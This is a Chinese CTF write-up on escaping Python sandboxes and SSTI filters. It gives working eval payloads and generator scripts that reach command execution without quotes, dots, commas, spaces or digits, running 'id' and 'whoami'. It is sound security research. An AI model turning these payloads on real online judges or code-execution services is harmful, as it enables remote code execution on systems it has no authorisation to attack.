# Python 沙箱逃逸的通解探索之路

- 来源：https://cn-sec.com/archives/1322842.html


## ☁️ 说在前面

让用户提交 Python 代码并在服务器上执行，是一些 OJ、量化网站重要的服务，很多 CTF 也有类似的题。为了不让恶意用户执行任意的 Python 代码，就需要确保 Python 运行在沙箱中。沙箱经常会禁用一些敏感的函数，例如 os。

其次，在大多数 Python 的 SSTI 中，沙箱逃逸中可以使用的手段，通常来说也可以用在 SSTI 里，至少也能起到一个重要的指导意义。

其实沙箱逃逸大部分知识点，在 19 年 5 月我就已经整理完发布出来了，在看本篇之前，建议再看下这篇复习一下：

`https://www.tr0y.wang/2019/05/06/Python沙箱逃逸经验总结/`

那么为什么还有这篇呢？

正如《OrangeKiller CTF 第 3 期》中所说，在做这期题目的时引出了本文的探索。同时，本篇也作为 wp 公布下第三期中题目的解法。

## ☁️ 通解探索

一切还是要从这道题目开始。




解释一下：构造出一个 CMD，这个 CMD 经过这个 `all` 的计算后结果必须为 `True`，且 `eval(CMD)` 需要可以在 os shell 里执行 `id`（其实就是实现 RCE 啦）。

### 🌧 解法一

从执行上下文看，我们要构造出的 `CMD` 显然是一个字符串，因为下面会进行 `eval`。那么这里就有第一个问题：如何构造出任意字符串？

因为上面的限制条件把 `"`、`'` 都干掉了，所以直觉上我们会选择用 `chr` + `+` 来拼接出字符串，但是 `+` 也被干掉了。

而由于 `,` 也被干掉了，所以虽然能调用函数，但是也只能传一个参数。并且 `.` 也被限制掉了，所以就算可以 `__import__` 也没法调用方法。

对 Python CTF 题比较熟悉的橘友，第一反应可能是用 `list`+`dict`：`list(dict(whoami=1))[0]`。这个 payload 还是比较好用的，但问题是，由于 `whoami` 作为参数名，无法携带一些特殊的字符，例如空格、引号、括号 等等，所以仅凭这个手法去构造的 exp，在实际的利用过程中不是非常实用。



所以需要寻找其他办法。经过一番寻找，我在内置的函数中发现了 `bytes()`：



也就是说，这个函数可以接收一个可迭代对象，里面是 0-256 的整数，然后就会返回一个 bytes：



由于 `range()` 是固定顺序的，无法得到我们要的任意字符串。那么接下来问题就变成了：

- **如何构造包含任意序列的整数的可迭代对象？**

如果能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，那么就可以通过 `bytes()` 得到 `whoami`。由于不能使用 `,`，所以不能直接写一个列表或者集合之类的出来。

最先映入我脑海中的是**列表推导式**，因为可以通过 `if` 来从列表中捞需要的数据。那么问题是这个布尔表达式要怎么写呢？先思考一下：

对于一个有序的列表，若想捞出任意排序的字符串，不但需要固定下来每个字符的位置，还需要保证固定位置是特定的字符，所以肯定需要两个条件组合，那么 payload 就呼之欲出了：

```python
In [1]: bytes([
    ...:     j for i in range(256) for j in range(256)
    ...:     if i==0 and j == 119 or i == 1 and j == 104 or i == 2 and j == 111
    ...:     or i == 3 and j == 97 or i == 4 and j == 109 or i == 5 and j == 105
    ...: ])
Out[1]: b'whoami'

[j for i in range(256) for j in range(256)] 相当于以下代码

a = []
for i in range(256):
    for j in range(256):
        a.append(j)  
payload 代码六个 i 拿出 6个字符，j 的值决定了拿到的字符的值是什么。        
        
```


对应的构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if "+" or ".join([f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

可以把以上脚本拉入 pycharm 细细分析，代码过长可以参看[此处](https://blog.csdn.net/weixin_36338224/article/details/114693282)设置一下自动换行。




还有一个**空格**的限制，这个姿势在 OrangeKiller CTF 的第二期已经说过了，用 `[]` 来替代。构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```



这个 payload 可读性已经特别差了。。。

- 目前对于用中括号替代空格不是完全理解。

如果额外限制了 `==`，那么还可以用 `in` 来代替：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))")
```

最后这个 exp 长这样：


如果 `bytes` 之类的内置函数被禁用了，可以通过 Unicode 来绕过，这个技巧我们已经见得多了，就不多说了。

所以，这个 payload 在大多数情况下已经可以通用了。

- 这个 payload 仅包含 字母、左右小/中括号、数字。

### 🌧 解法二

解法一有一个比较大的问题是，`if` 是没办法用 Unicode 绕过的。假如被禁了那么就 GG 了。所以，在上面条件限制的基础上，我们把 if 干掉，看看能否找到解决办法。

经过一番思索，我给出的第二个答案是：模拟 import。

我们知道，import 可以认为是打开源码之后执行代码。那么我们可以手动模拟这个过程，也就是 `exec(open(...).read())`，从而引入所需的函数。

首先面临的问题是：如何知道库的绝对路径呢？对于部分题目来说，可能存在绝对路径泄露，但是这个并不通用，我不喜欢。其实 `__import__` 之后，返回的 module 经过 str 就会有绝对路径：



所以就可以这样：`open(str(__import__("os"))[19:-2])`。

问题又来了，要想读出文件内容，通常我们会用 `.read()`，但是 `.` 已经被干掉了。好在，`open` 的返回值是 `_io.TextIOWrapper`，由于存在 `__iter__` 方法，所以我们可以把它当做是一个可迭代对象来迭代。也就是可以通过 `list(open(str(__import__("os"))[19:-2]))` 取出文件内容，这个效果等价与 `open(...).readlines()`：



```python
list(open(str(__import__("os"))[19:-2])) == open(str(__import__("os"))[19:-2]).readlines()
# 在 python shell 里执行一次以上命令后再次执行相同命令会报错？不甚理解。
```

那么问题又来了，这种形式的源码，`exec` 是没法执行的。由于存在各种限制，`join` 这种都不用想了。经过一番思索，我感觉还是得用到列表推导。思路是用一个二层循环，一层将列表里的字符串拆解出来，例如 `["ab", "cd"]` 转为 `["a", "b", "c", "d"]`；第二层将列表里的字符，转为 ASCII 码，然后再用 `bytes` 转为完整的字符串。

payload 如下（这里的缩进只是为了更好地理解，实际上是不需要的）：

```python
exec(
    bytes([
        ord(j)
        for(i)in(
            list(
                open(
                    str(
                        __import__(
                            list(dict(os=1))[0]
                        )
                    )[19:-2]
                )
            )
        )
        for(j)in(i)
    ])
)
```

至此，我们就可以在上下文中执行 `os.py` 里的所有函数了 ：



由于上述载入函数和执行函数是分开执行的，不是很优雅，有办法合并成一句执行么？

首先分析一下，payload 必须在执行函数之前运行，所以可以通过 `[exec(...)][0][system("whoami")]` 来实现，需要注意的是，`system` 在运行成功的时候才会返回 `0`，一旦失败，返回的数字比较大，命令虽然已执行成功，但是整个 payload 的执行是会失败的，可能会遇到不必要的麻烦。并且，形如 `popen` 这种返回字符串的，也不宜这样利用。

更好的方式是用 `[str][bool(exec...)](list(popen("whoami")))`

所以解法二的 payload 如下：

```python
[str][bool(exec(
    bytes([
        ord(j)
        for(i)in(
            list(
                open(
                    str(
                        __import__(
                            list(dict(os=1))[0]
                        )
                    )[19:-2]
                )
            )
        )
        for(j)in(i)
    ])
))](list(popen(list(dict(whoami=1))[0]))[0])
```



当然，上面这个 payload，同样存在特殊字符无法构造的问题，执行 `whoami` 这种单一的命令是 ok 的，如果想要反弹个 shell 就没法搞了 

好在思路有了，只需要换一下库就行。`dict` 参数要求是合法的变量名，那么我们很容易想到 base64 里的字符大部分都是 `0-9a-zA-Z` 构成，还有特殊的字符 `=`、`/`、`+`。后面我们会挨个解决这三个字符的问题，先展示下 payload：

```
[eval][
    bool(
        exec(
            bytes([
                ord(j)
                for(i)in(
                    list(
                        open(
                            str(__import__(list(dict(base64=1))[0]))[23:-2]
                        )
                    )
                )[:-5]
                for(j)in(i)
            ])
        )
    )
](
    b64decode(
        list(
            dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignaWQnKS5yZWFkKCkg=1)
        )[0]
    )
)
```

包含的命令为：



更进一步，这个 payload 里除了 `eval`、`list`、`dict`、`for`、`in`、`数字` 之外其他常量/函数/关键字都不是必要的。都可以用 `eval` + `list` + `dict` 构造。所以这个 payload 可以变成这样：

```
CMD = [eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

至此，还有三个特殊字符需要解决：`=`、`/`、`+`。一旦 payload 经过 base64 编码之后出现这三个字符就没法当做 `dict` 的参数了。

仔细回想一下小学 2 年级就学过的 base64 编码 ：



当红框里的二进制变成 `111111` 的时候，根据 base64 规范，此时应该编码为 `/`。这就要求原本的字符以 6 个 `1` 结尾，符合这种条件的 ascii 字符，只有一个：`?`。也就是说，只要位置为 3 的倍数上的字符是 `?`，那么编码后就会出现 `/`：



知道原因之后，解决方式就很简单了：插入无关紧要的字符，挤走原本位于 3 倍数位置的 `?`。

同理，编码后出现 `+` 可能的字符有 `>`、`~`；编码后出现 `=` 的原因是源字符串长度不为 `=` 的倍数。这些都可以通过加无关紧要的字符来解决 ：



### 🌧 通解三

比较遗憾的是，上面这个 payload 当利用点处于函数内部的时候，由于 `exec` 生成的变量无法在函数上下文中使用，所以在执行模块源码的时候通常会报错。例如上面这个就会报 `'_bytes_from_decode_data' is not defined`：



一开始我的思路是：能否寻找到一个库的源码，其中有一行 `__import__("binascii").a2b_base64`，如果有的话，我就可以通过切片切出来这一句话，然后用 `eval` 执行，参数可以通过 for 循环搞定：



但遗憾的是，经过一番搜索，并没有找到合适的标准库的源码可以用来执行导入解码模块的语句，要么就是存在多级目录，在无法判断 python 绝对路径的情况下，不实用。因此需要另寻它法 

再经过一番探索，我发现 `vars()` 真是完美。它有一个可选参数，当没指定参数的时候，与 `locals()` 结果一致。当指定参数的时候，会获取参数所在命名空间的 `locals()`。所以我们可以先 `import binascii` ，在利用 `vars(binascii)` 取出里面的 `a2b_base64` 从而进行 base64 解码：

```
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

相比上面的 payload 来说，它还不需要 `for`，非常纯净的通解 

### 🌧 通解四

再疯狂一点，如果把数字禁用了，如何？


这就是《OrangeKiller CTF 第 3 期》中的第三道题。

切片中的数字好说：

- `0` -> `len([])`
- `2` -> `len(list(dict(aa=()))[len([])])`

由于我选用的是 `dict()`，参数里的数字应该如何绕过呢？答案还是 Unicode！可用的数字列表见：

https://www.fileformat.info/info/unicode/category/Nd/list.htm



所以，终极版的 payload 如下：

```
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

其中需要用到的字符：

```
In [5]: set(re.findall('w+', CMD))
Out[5]:
{'X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg',
 '_a_aiamapaoarata_a_',
 'a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦',
 'aa',
 'b_i_n_a_s_c_i_i_',
 'dict',
 'eval',
 'len',
 'list',
 'vars'}

In [6]: set(re.findall('W', CMD))
Out[6]: {'(', ')', ':', '=', '[', ']'}
```

构造脚本：

```
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

怎一个吊字了得 

## ☁️ 总结

OrangeKiller CTF 第 3 期 所需的知识点，其实都在这篇文章里了，我就不啰嗦了。

这篇写完之后顿觉神清气爽。现在 CTF 中的 Python 题还是比较简单的 —— Web 题似乎还是 PHP 的天下。什么时候 Python 也能像 PHP 这样被人探索出各种奇妙的利用呢？本文的姿势似乎尚未有前人探索，或许也算为 Python 的奇技淫巧共享出属于自己的一小份力量了 